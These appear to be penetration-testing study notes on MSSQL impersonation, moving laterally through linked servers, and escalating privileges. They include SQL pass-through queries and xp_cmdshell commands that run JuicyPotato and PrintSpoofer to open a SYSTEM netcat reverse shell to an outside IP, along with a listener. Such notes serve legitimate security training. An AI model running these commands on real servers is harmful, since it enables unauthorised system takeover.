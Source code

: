 Note: It's recommended to run EXECUTE AS LOGIN within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using USE master.

### Communicate with Other Databases with MSSQL
`MSSQL` has a configuration option called linked servers. Linked servers are typically configured to enable the database engine to execute a Transact-SQL statement that includes tables in another instance of SQL Server, or another database product such as Oracle.

If we manage to gain access to a SQL Server with a linked server configured, we may be able to move laterally to that database server. Administrators can configure a linked server using credentials from the remote server. If those credentials have sysadmin privileges, we may be able to execute commands in the remote SQL instance. Let's see how we can identify and execute queries on linked servers.

Identify linked Servers in MSSQL
```
1> SELECT srvname, isremote FROM sysservers
2> GO
```
As we can see in the query's output, we have the name of the server and the column isremote, where 1 means is a remote server, and 0 is a linked server
In this example we can see 10.0.0.12\SQLEXPRESS with the value 0 under isremote
Next, we can attempt to identify the user used for the connection and its privileges. The EXECUTE statement can be used to send pass-through commands to linked servers. We add our command between parenthesis and specify the linked server between square brackets ([ ]).
```
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```
As we have seen, we can now execute queries with sysadmin privileges on the linked server. As sysadmin, we control the SQL Server instance. We can read data from any database or execute system commands with xp_cmdshell.
# Privilege escalation (check [[SeImpersonate and SeAssignPrimaryToken]])
the following command is used within MSSQL with xp_cmdshell
```
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```
```
-l is the COM server listening port
-p is the program to launch (cmd.exe)
-a is the argument passed to cmd.exe
-t is the createprocess call.
```
we are telling the tool to try both the CreateProcessWithTokenW and CreateProcessAsUser functions, which need SeImpersonate or SeAssignPrimaryToken privileges respectively
```
nc -lvnp 8443
```
4. reverse shell created with nt authority/system

the following command is used within MSSQL with xp_cmdshell
```
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd”
```
```
nc -lvnp 8443
```
3. reverse shell created with nt authority/system